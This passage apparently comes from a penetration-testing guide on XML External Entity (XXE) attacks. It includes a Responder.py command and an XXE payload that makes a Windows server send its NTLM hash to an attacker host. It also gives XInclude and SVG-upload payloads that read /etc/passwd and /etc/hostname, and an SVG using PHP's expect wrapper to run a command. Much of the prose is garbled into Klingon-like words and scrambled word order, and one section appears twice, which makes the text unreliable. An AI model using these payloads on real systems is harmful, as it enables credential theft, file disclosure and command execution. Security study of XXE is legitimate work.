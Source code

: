 Windows hostpu'wIj web server user NTML hash laH responder.py handler set vItlhutlh.
```bash
Responder.py -I eth0 -v
```
and by sending the following request
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```
## qawHaq XXE Surfaces

### XInclude

ghItlh XML qel DIvI' ghaH xml documents, backend SOAP requests, client data jImej, xml structure XML modify 'ej 'ach xml attacks XXE traditional hindering limited, 'ej 'ach 'ej external entities insertion allowing 'ej xml document data element. method effective xml document server-generated controlled data portion only when.

'ej xml attack 'ej, 'ej intended external entity file path specified must be declared, 'ej XInclude namespace. example succinct formulated attack such qar:
```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
### SVG - File Upload

Files uploaded by users to certain applications, which are then processed on the server, can exploit vulnerabilities in how XML or XML-containing file formats are handled. Common file formats like office documents (DOCX) and images (SVG) are based on XML.

When users **upload images**, these images are processed or validated server-side. Even for applications expecting formats such as PNG or JPEG, the **server's image processing library might also support SVG images**. SVG, being an XML-based format, can be exploited by attackers to submit malicious SVG images, thereby exposing the server to XXE (XML External Entity) vulnerabilities.

An example of such an exploit is shown below, where a malicious SVG image attempts to read system files:

### SVG - File Upload

Users' uploaded files can be used to exploit vulnerabilities in XML or XML-containing file formats. Common file formats like office documents (DOCX) and images (SVG) are based on XML.

When users **upload images**, these images are processed or validated on the server. Even if the application expects formats like PNG or JPEG, the **server's image processing library may also support SVG images**. Attackers can exploit SVG, which is an XML-based format, by submitting malicious SVG images, thus exposing the server to XXE (XML External Entity) vulnerabilities.

An example of such an exploit is shown below, where a malicious SVG image attempts to read system files:
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```
**jIyajbe'chugh** **DIvI'** **PHP "expect" wrapper** **lo'wI'** **command** **execute** **attempting** **involves** **method** **Another**:
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<image xlink:href="expect://ls"></image>
</svg>
```
In both instances, the SVG format is used to launch attacks that exploit the XML processing capabilities of the server's software, highlighting the need for robust input validation and security measures.

